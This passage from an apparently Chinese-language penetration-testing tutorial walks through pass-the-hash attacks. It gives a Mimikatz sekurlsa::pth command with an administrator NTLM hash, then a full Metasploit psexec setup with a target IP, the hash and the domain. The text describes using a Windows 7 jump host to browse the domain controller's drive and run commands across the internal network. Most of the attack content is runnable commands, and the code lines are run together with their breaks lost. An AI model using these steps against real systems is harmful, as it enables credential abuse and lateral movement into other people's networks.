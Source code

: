 ```


```
`privilege::debug``sekurlsa::pth /user:administrator /domain:workgroup /ntlm:4d6e43b2cdc951808100f5b1d09aac63`
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

成功，此时会自动弹出一个新的shell，这时访问远程主机或服务，就不用提供明文密码了，如下，我们列出了域控制器OWA的c盘目录（要使用主机名，不能用IP，否则报错）：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

之后，攻击者便可以利用Windows7跳板机任意访问内网其他机器中的文件，进行上传、下载等操作，还可以在目标机器上运行其他命令，以获取目标机器的目录结构、用户列表等信息。

### 使用Metasploit进行PTH

在metasploit中，经常使用的模块有：

```


```
auxiliary/admin/smb/psexec_command      // 在目标机器上执行系统命令              exploit/windows/smb/psexec            // 用psexec执行系统命令         exploit/windows/smb/psexec_psh         // 使用powershell作为payload
```




```

以exploit/windows/smb/psexec模块哈希传递攻击Windows Server 2003为例（设置smbuser、smbpass、smbdomain）

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```


```
use exploit/windows/smb/psexecset rhosts 192.168.52.141set smbuser administratorset smbpass 00000000000000000000000000000000:4d6e43b2cdc951808100f5b1d09aac63  # 完整的Administrator用户的Hashset smbdomain godrun
```




```
